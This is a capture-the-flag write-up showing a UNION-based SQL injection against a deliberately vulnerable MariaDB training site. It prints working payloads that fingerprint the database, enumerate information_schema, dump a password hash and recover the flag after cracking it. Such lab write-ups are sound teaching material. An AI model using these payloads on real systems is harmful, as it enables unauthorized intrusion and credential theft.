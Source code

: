 ### Challenge

I tested several types of injections from this list: https://github.com/payloadbox/sql-injection-payload-list, and then I started trying UNION attacks.

Payload: `1 UNION SELECT 1`
Response: `The used SELECT statements have a different number of columns`

We have two columns:
```
1 UNION SELECT null,null

ID: 1 UNION SELECT null,null 
First name: one
Surname: me
ID: 1 UNION SELECT null,null 
First name: 
Surname:
```

We're likely dealing with `MySQL` because sleep(10) works. Indeed, a union select version adapted to MySQL and Microsoft works:

```
1 UNION SELECT NULL,@@version

ID: 1 UNION SELECT NULL,@@version 
First name: one
Surname: me
ID: 1 UNION SELECT NULL,@@version 
First name: 
Surname: 5.5.64-MariaDB-1ubuntu0.14.04.1
```

On sait donc qu’on a une database Member_Sql_Injection avec une table users
```
1 UNION SELECT * from clauses

response : Table 'Member_Sql_Injection.clauses' doesn't exist
```

We can see there's a user flag:

```
1 UNION SELECT first_name,null FROM users

ID: 1 UNION SELECT first_name,null FROM users 
First name: one
Surname: me
ID: 1 UNION SELECT first_name,null FROM users 
First name: one
Surname: 
ID: 1 UNION SELECT first_name,null FROM users 
First name: two
Surname: 
ID: 1 UNION SELECT first_name,null FROM users 
First name: three
Surname: 
ID: 1 UNION SELECT first_name,null FROM users 
First name: Flag
Surname:
```

With the documentation of information_schema.tables for mariadb, we can discover all schemas, tables, and columns : https://mariadb.com/kb/en/information-schema-tables-table/

Some examples of payloads to obtain more information:

```SQL
1 UNION SELECT table_name, table_schema FROM information_schema.tables # get table name and schema
1 UNION SELECT table_name, table_rows FROM information_schema.tables # name and rows
1 UNION SELECT table_name, column_name FROM information_schema.columns # All colunms of all tables
```

```SQL
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: db_default
Surname: id
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: db_default
Surname: username
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: db_default
Surname: password
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: users
Surname: user_id
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: users
Surname: first_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: users
Surname: last_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: users
Surname: town
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: users
Surname: country
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: users
Surname: planet
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: users
Surname: Commentaire
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: users
Surname: countersign
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: guestbook
Surname: id_comment
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: guestbook
Surname: comment
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: guestbook
Surname: name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: list_images
Surname: id
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: list_images
Surname: url
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: list_images
Surname: title
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: list_images
Surname: comment
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: vote_dbs
Surname: id_vote
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: vote_dbs
Surname: vote
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: vote_dbs
Surname: nb_vote
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns
First name: vote_dbs
Surname: subject
```

Okay, here's a summary:

We are in a MySQL database: 5.5.64-MariaDB-1ubuntu0.14.04.1
Database: Member_Sql_Injection

- DB: Member_Sql_Injection
- table: users

- DB: Member_Brute_Force ← Probably for another challenge
- table: db_default

- DB: Member_guestbook
- table: guestbook

- DB: Member_images
- table: list_images

- DB: vote_dbs
- table: survey


On the "users" table, you can retrieve the missing information and with this, the password!
```
ID: 1 UNION SELECT countersign, Commentaire FROM users
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname: Decrypt this password -> then lower all the characters. SHA256 on it and it's good!
```

Following the comment, we retrieve the password which turns out to be MD5, with the password being `FortyTwo`: https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28
We lowercase the password: `fortytwo`

This results in:
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
And therefore, a 64-character string that is the flag!



### Ressources
- https://crashtest-security.com/sql-injection-union/
- https://portswigger.net/web-security/sql-injection/examining-the-database
- https://mariadb.com/kb/en/information-schema-tables-table/
